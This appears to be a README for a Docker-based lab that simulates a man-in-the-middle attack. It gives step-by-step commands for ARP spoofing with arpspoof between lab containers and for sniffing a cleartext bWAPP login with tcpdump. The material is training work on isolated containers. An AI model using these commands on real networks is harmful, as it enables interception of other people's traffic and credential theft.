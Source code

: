 
---

### ✅ Objective

Simulate a **MitM attack** — for example, **ARP spoofing**, **HTTP sniffing**, or **DNS spoofing** — from the **Kali** container targeting traffic between `bwa` and `mysql`, or between `victim` and others.

---



## Why Use Docker for MITM Simulations?

Docker provides an ideal environment for simulating man-in-the-middle (MITM) attacks because it allows you to quickly create isolated, reproducible, and controlled network setups. By running multiple containers connected to a private Docker network, you can mimic real-world network interactions safely without risking your host system. Docker’s ability to assign static IPs and isolate network traffic makes it perfect for practicing ARP spoofing, HTTP sniffing, and other MITM techniques in a contained lab environment.



## 🛠️ Step-by-Step Guide

### 1. ✅ Start the Environment

Run the following in the same directory as your `docker-compose.yml`:

```bash
docker-compose up -d
```
![image](screen7.png)

![image](screen6.png)
---

### 2. ✅ Enter the Kali Container

```bash
docker exec -it kali bash
```



```bash
apt update
apt install -y dsniff tcpdump iproute2 iputils-ping net-tools
```

---

### 3. ✅ Enable IP Forwarding

Inside Kali:

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```



---

### 4. ✅ Perform ARP Spoofing


In Kali:

```bash
arpspoof -i eth0 -t 172.28.0.10 172.28.0.5
```
![image](screen1.png)
In another Kali terminal (or tmux pane):

```bash
arpspoof -i eth0 -t 172.28.0.5 172.28.0.10
```
![image](screen2.png)
Now you’re acting as the man in the middle.

---
### 5. ✅ RUn curl from the victim 

```bash

curl -d "login=bee&password=bug&security_level=0&form=submit" http://172.28.0.10/login.php    
```



### 6. ✅ Sniff the Traffic

Still in Kali, use `tcpdump` to monitor traffic:

```bash
tcpdump -i eth0 -A port 80        # HTTP traffic from bWAPP
```
![image](sceen5.png)


---


